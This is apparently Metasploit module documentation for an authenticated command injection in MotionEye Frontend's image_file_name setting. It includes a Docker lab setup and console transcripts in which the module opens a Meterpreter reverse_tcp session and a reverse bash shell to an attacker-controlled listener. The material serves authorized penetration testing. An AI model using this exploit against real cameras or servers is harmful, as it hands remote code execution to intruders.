 ## Vulnerable Application

This module exploits a template injection vulnerability in the [MotionEye Frontend](https://github.com/motioneye-project/motioneye).

MotionEye Frontend versions 0.43.1b4 and prior are vulnerable to OS Command Injection in configuration parameters such as `image_file_name`.
Unsanitized user input is written to MotionEye Frontend configuration files, allowing remote authenticated attackers with admin access to achieve code execution.

Successful exploitation will result in the command executing as the user running
the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Exploit Workflow

1. Adds a new camera in MotionEye Frontend.
2. Injects the payload into the `image_file_name` field (used for naming camera screenshots).
3. Captures a screenshot ("snapshot" in the terminology of MotionEye), triggering the payload.

## Testing

1. Use Docker to set up the MotionEye app

`docker run -p 9999:8765 ghcr.io/motioneye-project/motioneye@sha256:2dcc3c4da1830ef824067375b2e022fa28c5fdbca773f5496bd35543ec45bef7`

2. Open http://127.0.0.1:9999/ and make sure the app is available

## Scenario

### cmd/linux/http/x64/meterpreter/reverse_tcp

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set FETCH_SRVHOST 172.17.0.1
FETCH_SRVHOST => 172.17.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding malicious camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit setup complete
[*] Triggering exploit...
[+] Exploit triggered, waiting for session...
[*] Sending stage (3045380 bytes) to 172.17.0.2
[*] Meterpreter session 1 opened (192.168.19.130:4444 -> 172.17.0.2:38124) at 2025-10-04 21:08:57 -0400
[*] Removing camera
[+] Camera removed successfully

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 13.1 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### cmd/unix/reverse_bash

```
msf6 > use exploit/multi/http/motioneye_auth_rce_cve_2025_60787
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > set RPORT 9999
RPORT => 9999
msf6 exploit(multi/http/motioneye_auth_rce_cve_2025_60787) > run

[*] Started reverse TCP handler on 192.168.19.130:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected version 0.43.14, which is vulnerable
[*] Adding malicious camera...
[+] Camera successfully added
[*] Setting up exploit...
[+] Exploit setup complete
[*] Triggering exploit...
[+] Exploit triggered, waiting for session...
[*] Command shell session 1 opened (192.168.19.130:4444 -> 172.17.0.2:60160) at 2025-10-06 04:46:34 -0400
[*] Removing camera
[+] Camera removed successfully

cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 13 (trixie)"
NAME="Debian GNU/Linux"
VERSION_ID="13"
VERSION="13 (trixie)"
VERSION_CODENAME=trixie
DEBIAN_VERSION_FULL=13.1
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```

## Script for signing requests

A script for manually signing requests is available in data/exploits/CVE-2025-60787/sign_request.py and can be used for debugging purposes.

Example of usage:
```
python3 ./sign_request.py --method "GET" --path "/config/1/get/?force=true&_=1759747431350&_username=admin" --body "" --key ""
```